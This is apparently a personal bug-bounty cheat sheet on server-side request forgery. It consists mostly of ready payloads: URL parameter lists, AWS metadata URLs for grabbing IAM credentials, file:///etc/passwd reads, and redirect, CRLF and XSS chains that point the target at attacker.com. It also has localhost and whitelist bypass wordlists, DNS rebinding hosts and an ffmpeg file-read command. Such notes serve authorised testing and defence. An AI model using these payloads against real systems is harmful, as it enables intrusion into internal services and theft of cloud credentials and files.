 # SSRF

payload : `www.attacker.com/?`    <-- https://hackerone.com/reports/2442626

Use [[Certbot]] to make our http server to https to allow target website to ping our attacker hosted website.

SSRF via SVG file upload

Spider a domain in burpsuite. Payloads are at down
Search for `url=` `request=` `load=` `redirect=` `fetch=` `page=` `site=` `open=` `entry=` `target=` `Destination=` `Uri=` `file=`

### Blind SSRF

X-Forwarded-Host, X-Forwarded-For, X-HOST etc,

Add this header in the request followed by our attacker URL. 

it will send cookies, internal requests, IP. To our server.

SVG to SSRF `https://github.com/allanlw/svg-cheatsheet`

### AWS Meta Data Service 
SSRF -> AWS Metadata Service
https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html
`<iframe src="http://169.254.169.254/latest/meta-data/"></iframe>`
`<img src="file:///etc/passwd">`

```
http:// 169.254.169.254/latest/meta—data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta—data/iam/security-credentials/IAM_USER_ROLE_HERE
http://169.254.169.254/latest/meta-data/iam/security-credentialsl/PhotonInstance
```

SSRF to Accessing Cloud Meta Data 

https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b

##### SSRF to LFI 

`file://etc/passwd`

Double Encode URL to avoid black listing ()

---
### URL Schemes to Check 

```
file://
dict://
sftp://
ldap://
ldaps://
ldapi://
tfpt://
gopher://
```

## Payloads

```
?dest={target} 
?redirect={target} 
?uri={target} 
?path={target} 
?continue={target} 
?url={target} 
?window={target} 
?next={target} 
?data={target} 
?reference={target} 
?site={target}
?html={target} 
?val={target} 
?validate={target} 
?domain={target} 
?callback={target} 
?return={target} 
?page={target} 
?feed={target} 
?host={target} 
?port={target} 
?to={target} 
?out={target} 
?view={target} 
?dir={target}
```

## SSRF Chaining

### Open redirect to SSRF 
find a file via bruteforce the URL parameter  chain with open redirect
```
example.com/ssrf.php?url=/redirect.php?url=//attacker.com
```

### SSRF to CRLF:
```
example.com/ssrf.php?url=/test%0d%0aHost:%20attacker.com
```

### SSRF to XSS

Host a file in attacker server or any where publicly, give that to make an XSS. (the file will contain XSS payload).

### SSRF to FFMPEG

if any Video upload functionality is there in the website we can exploit this.

https://github.com/neex/ffmpeg-avi-m3u-xbin

`./gen_xbin_avi.py file://<filename> file_read.avi`

### XSS + Open Redirect --> SSRF (internal access)

(this will more work in pdf generator feature)
From XSS `<iframe src=//attacker.com/test.php>` this won't work because of SOP. where `test.php` have  `<?php header('Location:file:///etc/passwd'); ?>`.

And if we found an Open redirect in the same, we can chain it with that XSS that can ping our attacker server.
`target.com/api/logout"redirTo=//attacker.com`  can be our open redirect

we can craft our XSS payload with `<iframe src=/api/logout?redirTo=//attacker.com/test.php></iframe>`. Now server renders iframe of its own origin gets redirect to attacker server which redirects to `file://etc/passwd`. 

### Whitelist bypass

If the server puts a whitelist for URLs give a `?` at the end of whitelist URL followed by attacker URL. `url=http://attacker.com?.target.com/` This will bypass if they set `http://*.target`. That **?** will break the whitelist and pings to attacker.com

## Bypassing restrictions from SSRF

localhost bypass wordlist
```
https://127.0.0.1/
https://localhost/
http://[::]:80/
http://[::]:25/ 
http://[::]:22/ 
http://[::]:3128/ 
http://[0000::1]:80/
http://[0000::1]:25/ 
http://[0000::1]:22/ 
http://[0000::1]:3128/ 
localtest.me	
localh.st	
spoofed.redacted.oastify.com
company.127.0.0.1.nip.io
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
http://2130706433/
http://3232235521/
http://3232235777/
http://2852039166/
http://0177.0.0.1/
http://o177.0.0.1/
http://0o177.0.0.1/
http://q177.0.0.1/
http://0/
http://127.1
http://127.0.1
http://① ② ⑦.⓿.⓿.①
```

Bypass using enclosed alphanumerics
https://qaz.wtf/u/convert.cgi

```
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com

List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

#### DNS Rebinding

Application code has check for user input data and process if and only domain/IP is not black listed. We will bypass the blacklist with DNS rebinding.

The server will request to the DNS for the IP and it might get cached. So the rebinding host contains 2 DNS records with less TTL. so when we request for that URL multiple times some times it will point to the blacklisted IP(AWS/Localhost). Thus we bypassed the blacklist.

**Approach:** give an IP which is attacker controlled or any public which is allowed and other one is blacklisted (AWS/localhost) and generate such URL with below links.

https://lock.cmpxchg8b.com/rebinder.html
http://1u.ms/

http://make-1.2.3.4-rebind-169.254.169.254-rr.1u.ms

https://canarytokens.org/nest/


## From Wayback urls

```
cat all-inscope-domains.txt | waybackurls -dates | grep "https://" | grep "url=" | egrep -v "(.txt|.js|.svg|.jpeg|.jpg|.woff|.woff2|.eot|.css|.png|.ttf|.gif)
```